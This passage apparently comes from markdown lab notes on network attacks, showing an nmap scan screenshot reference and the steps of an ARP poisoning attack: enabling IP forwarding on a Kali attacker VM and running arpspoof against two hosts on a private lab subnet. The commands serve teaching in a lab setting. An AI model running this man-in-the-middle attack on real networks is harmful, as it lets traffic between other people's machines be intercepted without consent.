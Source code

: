 ![nmap 10.100.13.0/24](2-network-attackassets/image-20230324125014246.png)

### ARP Poisoning Attack

- To see traffic of other machines, configure Kali Attacker VM to forward IP packets

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- Start the ARP poisoning attack with the [**`arpspoof`**](https://www.kali.org/tools/dsniff/#arpspoof) tool

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
# -t = target
# -r = host
```
